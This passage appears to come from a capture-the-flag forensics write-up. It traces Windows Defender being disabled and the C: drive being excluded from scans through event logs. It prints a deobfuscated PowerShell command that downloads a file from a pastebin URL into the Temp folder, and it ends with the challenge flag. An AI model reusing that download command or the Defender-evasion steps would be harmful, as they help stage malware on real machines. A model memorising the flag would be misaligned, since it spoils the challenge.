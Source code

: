 2. The datetime of Windows Defender being disabled is found in 'Microsoft-Windows-Windows Defender%4Operational.evtx'. **Since Microsoft Event Logs convert the time of the logs into local time, UTC+8 for Singapore, we will deduct 8 hours from the timestamp to get the desired timestamp.** (230503-18:20:59)
![Image of Windows Defender being disabled](/BrainHack2023/assets/image7.png) 
3. The datetime of a file being excluded can also be found in 'Microsoft-Windows-Windows Defender%4Operational.evtx'.
![Image of C: drive being excluded from Windows Defender scans](/BrainHack2023/assets/image8.png) 
4. Lastly, the suspicious string can be found after searching through all event log files of relevance. We eventually discover an obfuscated PowerShell Script in 'Windows PowerShell.evtx' which contains the desired suspicious string. 
5. As I have little experience with deobfuscating PowerShell scripts, I decided to utilise **Dynamic Analysis**. I ran the script in my FlareVM sandbox and captured the event with Process Monitor. The deobfuscated command comes out to be:  
```"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "$file_name = "0bfu5c@t3_p0w3r5he1l_5cr1pt"; $url = "https://pastebin.com/raw/SeJF9Edn"; Invoke-WebRequest -Uri $url -UseBasicParsing -OutFile $env:Temp$file_name;"```  
As shown in the command above, the suspicious string is '0bfu5c@t3_p0w3r5he1l_5cr1pt' and the pastebin contains the text 'This is malware file!!'.
![Image of obfuscated script](/BrainHack2023/assets/image9.png)
![Image of deobfuscated script](/BrainHack2023/assets/image10.png)
6. Lastly, md5 hash the information found in the format 'VIDPID_YYMMDD-HH:MM:SS_YYMMDD-HH:MM:SS_found character string',04E86860_230503-18:20:59_230503-18:21:19_0bfu5c@t3_p0w3r5he1l_5cr1pt, to get the flag. CDDC2023{11b77c51a25ea2c0ead3a3efd6493a62}